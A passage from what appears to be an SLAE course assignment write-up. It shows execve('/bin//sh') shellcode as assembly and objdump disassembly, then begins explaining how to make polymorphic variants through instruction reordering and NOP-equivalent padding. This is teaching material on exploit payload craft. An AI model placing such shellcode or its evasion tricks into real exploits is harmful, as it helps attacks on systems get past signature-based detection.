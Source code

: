 
shell: 	
	call dword flow
	das
	bound ebp,[ecx+0x6e]
	das
	das
	jae $+0x6a

{%endhighlight%}

The disassembled executable is:

{%highlight asm%}
thesp0nge@SLAE /media/sf_SLAE_Course/SLAE/Assignment_6/exec
 %      objdump -d exec_variant

exec_variant:     file format elf32-i386


Disassembly of section .text:

08048080 <_start>:
 8048080:	6a 0b                	push   $0xb
 8048082:	58                   	pop    %eax
 8048083:	31 c9                	xor    %ecx,%ecx
 8048085:	31 d2                	xor    %edx,%edx
 8048087:	eb 03                	jmp    804808c <shell>

08048089 <flow>:
 8048089:	5b                   	pop    %ebx
 804808a:	cd 80                	int    $0x80

0804808c <shell>:
 804808c:	e8 f8 ff ff ff       	call   8048089 <flow>
 8048091:	2f                   	das    
 8048092:	62 69 6e             	bound  %ebp,0x6e(%ecx)
 8048095:	2f                   	das    
 8048096:	2f                   	das    
 8048097:	73 68                	jae    8048101 <_end+0x65>

{%endhighlight%}
To fulfill our constraints, we've got 20 bytes to spend in NOP equivalent
instructions. We will use the same approach as used as in the kill example.

### Shake execution

The first polymorphic strategy is to swap system call parameter position. For such a reason, we will change the init part of our assignment first solution, in order to have an indipendent init routine for EDX. This way, the number of changes we can do it, it will raise.

Let's rewrite the first block this way:

{%highlight asm%}
6a 0b                	push   $0xb
58                   	pop    %eax
31 c9                	xor    %ecx,%ecx
31 d2                	xor    %edx,%edx
{%endhighlight%}
